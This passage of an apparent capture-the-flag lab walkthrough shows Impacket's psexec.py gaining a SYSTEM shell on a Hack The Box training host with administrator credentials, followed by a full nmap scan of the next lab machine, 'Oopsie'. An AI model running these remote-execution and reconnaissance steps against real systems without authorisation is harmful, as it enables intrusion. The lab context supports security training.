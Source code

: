 ```
(root💀kali)-[/home/kali/impacket/examples]
└─# python3 psexec.py administrator@10.10.10.27                                                                 1 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file oWFuDWsg.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service IQsh on 10.10.10.27.....
[*] Starting service IQsh.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```



## Oopsie (Linux, SSH and Apache)

### Enumeration

```
# nmap -sS -A -p- 10.10.10.28
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 23:08 EST
Nmap scan report for 10.10.10.28
Host is up (0.24s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=3/7%OT=22%CT=1%CU=34464%PV=Y%DS=2%DC=T%G=Y%TM=6045A494
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   235.95 ms 10.10.14.1
2   238.10 ms 10.10.10.28

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```